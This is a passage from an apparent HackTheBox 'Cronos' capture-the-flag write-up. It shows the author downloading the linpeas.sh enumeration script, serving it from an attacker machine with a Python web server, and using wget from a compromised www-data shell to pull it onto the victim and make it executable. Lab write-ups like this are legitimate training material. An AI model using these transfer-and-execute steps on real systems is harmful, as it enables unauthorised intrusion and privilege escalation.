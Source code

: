 <br />
Download linpeas.sh to the local working folder.

{% raw %}
```bash
┌──(kali㉿kali)-[~/Documents/htb/cronos]
└─$ wget https://github.com/peass-ng/PEASS-ng/releases/download/20250202-a3a1123d/linpeas.sh
--2025-02-16 00:01:37--  https://github.com/peass-ng/PEASS-ng/releases/download/20250202-a3a1123d/linpeas.sh
Resolving github.com (github.com)... 4.237.22.38
Connecting to github.com (github.com)|4.237.22.38|:443... connected.
HTTP request sent, awaiting response... 302 Found
Location: https://objects.githubusercontent.com/github-production-release-asset-2e65be/165548191/d73618c9-7a15-48f8-8489-affff6078781?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=releaseassetproduction%2F20250215%2Fus-east-1%2Fs3%2Faws4_request&X-Amz-Date=20250215T130138Z&X-Amz-Expires=300&X-Amz-Signature=d5755bf2afab41f2257947659cb9fe5c66486b549889191e41d9ccb6035e89b5&X-Amz-SignedHeaders=host&response-content-disposition=attachment%3B%20filename%3Dlinpeas.sh&response-content-type=application%2Foctet-stream [following]
--2025-02-16 00:01:37--  https://objects.githubusercontent.com/github-production-release-asset-2e65be/165548191/d73618c9-7a15-48f8-8489-affff6078781?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=releaseassetproduction%2F20250215%2Fus-east-1%2Fs3%2Faws4_request&X-Amz-Date=20250215T130138Z&X-Amz-Expires=300&X-Amz-Signature=d5755bf2afab41f2257947659cb9fe5c66486b549889191e41d9ccb6035e89b5&X-Amz-SignedHeaders=host&response-content-disposition=attachment%3B%20filename%3Dlinpeas.sh&response-content-type=application%2Foctet-stream
Resolving objects.githubusercontent.com (objects.githubusercontent.com)... 185.199.111.133, 185.199.108.133, 185.199.109.133, ...
Connecting to objects.githubusercontent.com (objects.githubusercontent.com)|185.199.111.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 839912 (820K) [application/octet-stream]
Saving to: ‘linpeas.sh’

linpeas.sh                                                 100%[========================================================================================================================================>] 820.23K  3.05MB/s    in 0.3s    

2025-02-16 00:01:38 (3.05 MB/s) - ‘linpeas.sh’ saved [839912/839912]

                                                                                                                                                                                                                                            
┌──(kali㉿kali)-[~/Documents/htb/cronos]
└─$ python3 -m http.server          
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```
{% endraw %}

<br />
Transfer the peas to the victim machine.

{% raw %}
```bash
www-data@cronos:/dev/shm$ wget 10.10.16.12:8000/linpeas.sh
wget 10.10.16.12:8000/linpeas.sh
--2025-02-15 15:07:45--  http://10.10.16.12:8000/linpeas.sh
Connecting to 10.10.16.12:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 839912 (820K) [text/x-sh]
Saving to: 'linpeas.sh'

linpeas.sh          100%[===================>] 820.23K  1.12MB/s    in 0.7s    

2025-02-15 15:07:46 (1.12 MB/s) - 'linpeas.sh' saved [839912/839912]

www-data@cronos:/dev/shm$ chmod +x linpeas.sh
chmod +x linpeas.sh
```
{% endraw %}
